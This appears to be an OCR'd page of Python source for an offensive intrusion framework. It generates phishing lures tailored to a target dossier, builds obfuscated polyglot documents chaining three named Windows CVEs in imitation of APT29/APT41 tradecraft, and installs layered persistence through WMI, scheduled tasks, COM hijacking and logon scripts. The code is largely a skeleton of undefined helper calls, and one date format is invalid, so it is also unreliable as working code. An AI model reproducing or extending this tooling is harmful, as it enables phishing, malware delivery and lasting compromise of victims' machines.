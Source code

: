 ```python
        industry_news = self.monitor_industry_feeds(target_dossier["professional"]["industry"])
        
        lure_templates = {
            "urgency": f"URGENT: {random.choice(industry_news)} Security Patch - Immediate Action Required",
            "collaboration": f"Follow-up: {target_dossier['professional']['recent_conference']} Discussion - {random.choice(['Project','Initiative','Working Group'])}",
            "authority": f"FINAL NOTICE: {random.choice(['Compliance','Audit','Policy'])} Review - {datetime.now().strftime('%Q%Y')}"
        }
        
        return self.select_optimal_template(target_dossier, lure_templates)

class PolyglotPayloadEngine:
    """Advanced polyglot file creation mimicking APT29/APT41 tradecraft"""
    
    def create_advanced_polyglot(self):
        """Multi-format polyglot files with embedded exploits"""
        polyglot_config = {
            "primary_format": "PDF",
            "embedded_formats": ["ZIP", "JAR", "HTML"],
            "exploit_chain": [
                "CVE-2021-40444",  # MSHTML RCE
                "CVE-2022-30190",  # Windows MSDT RCE
                "CVE-2023-21716"   # Windows NTLM EoP
            ]
        }
        
        # Build malicious document with multiple exploitation paths
        polyglot_structure = self.construct_polyglot(polyglot_config)
        return self.obfuscate_payload(polyglot_structure)
```

## Phase 2: Enhanced Persistence - Advanced Mechanisms

### Sophisticated Persistence Framework
```python
class AdvancedPersistenceFramework:
    def __init__(self):
        self.persistence_methods = {
            "registry": self.registry_persistence,
            "scheduled_tasks": self.scheduled_task_persistence,
            "services": self.service_persistence,
            "wmi": self.wmi_persistence,
            "lolbin": self.lolbin_persistence
        }
    
    def install_multi_layer_persistence(self):
        """Install multiple persistence mechanisms for resilience"""
        persistence_layers = [
            # Primary persistence - WMI Event Subscription
            self.install_wmi_persistence(),
            
            # Secondary persistence - Scheduled Task with system context
            self.install_scheduled_task_persistence(),
            
            # Tertiary persistence - COM Hijacking
            self.install_com_hijacking(),
            
            # Quaternary persistence - Boot/Logon scripts
            self.install_logon_script_persistence()
        ]
```